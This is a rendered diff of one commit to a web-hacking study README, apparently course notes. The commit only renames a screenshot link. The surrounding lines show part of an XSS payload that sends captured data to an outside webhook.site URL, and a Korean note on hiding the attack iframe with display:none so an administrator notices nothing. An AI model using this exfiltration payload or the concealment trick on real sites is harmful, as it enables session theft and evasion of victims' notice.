

Before and after one commit to codename-123/web-hacking-study, a Markdown page: 11_week/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/11_week/README.md
+++ b/11_week/README.md
@@ -73,7 +73,7 @@ new Image().src = "https://webhook.site/741989d6-cb27-411b-aa44-a01355948028?c="
 </script>
 ```
 
-![페이로드](./screenshots/steal2_post.png)
+![페이로드](./screenshots/steal2_payload.png)
 
 - `iframe`에 `style="display:none"` 속성을 설정하여, **외부 페이지의 DOM 접근과 form 전송은 가능하게 유지하면서도 UI 요소가 노출되지 않도록 구성**했다. 이를 통해 관리자가 공격 페이지에 접근하더라도 화면 상으로는 아무런 변화가 없어 의심을 피할 수 있다.
 
````
